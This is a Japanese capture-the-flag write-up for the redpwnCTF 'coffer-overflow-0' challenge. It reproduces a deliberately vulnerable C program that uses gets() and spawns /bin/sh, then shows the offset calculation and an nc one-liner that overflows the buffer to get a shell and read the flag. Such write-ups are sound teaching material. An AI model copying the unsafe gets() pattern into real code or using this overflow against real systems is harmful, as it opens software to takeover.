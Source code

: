 # coffer-overflow-0 (873 solves / 179 points)

> Can you fill up the coffers? We even managed to find the source for you.

coffer-overflow-0, coffer-overflow-0.cが添付されていた。

## solution

coffer-overflow.cは以下の通り

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```
codeの値が書き換わっていたら`system('/bin/sh')`が実行されるだけのプログラムである。

```
  4006db:       48 8d 45 e0             lea    rax,[rbp-0x20]
  4006df:       48 89 c7                mov    rdi,rax
  4006e2:       e8 99 fe ff ff          call   400580 <gets@plt>
  4006e7:       48 83 7d f8 00          cmp    QWORD PTR [rbp-0x8],0x0
```

アセンブリソースをみるとnameとcodeは``0x20-0x8=0x18``離れていることがわかるので、適当な文字を24文字より多く入力するとcodeが書き換わる。

```
$ (echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; cat) | nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
